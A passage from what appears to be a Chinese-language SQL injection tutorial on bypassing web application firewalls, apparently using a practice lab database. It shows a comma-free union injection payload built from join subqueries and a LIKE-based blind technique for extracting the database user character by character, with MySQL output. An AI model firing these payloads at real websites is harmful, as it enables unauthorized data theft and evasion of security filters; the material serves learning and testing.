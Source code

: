 实战效果，使用命令

```sql
?id=-1' union select * from (select 1)a join (select user())b join(select 3)c--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675827077154-68d7fce4-96a4-4c0b-ac2a-03a42d13e129.png)

# like绕过★ 

有时候不给使用=

使用 like 模糊查询 select user() like '%r%'; 模糊查询成功返回 1， 否则返回 0

```sql
mysql> select user() like '%root%';
+----------------------+
| user() like '%root%' |
+----------------------+
|                    1 |
+----------------------+
1 row in set (0.00 sec)

mysql> select * from users where id=1 and (select user() like '%root%');
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

找到第一个字符后继续进行下一个字符匹配。从而找到所有的字符串 最后就是要查询的内容，这种 SQL 注入语句也不会存在逗号。从而绕过 waf 拦截。
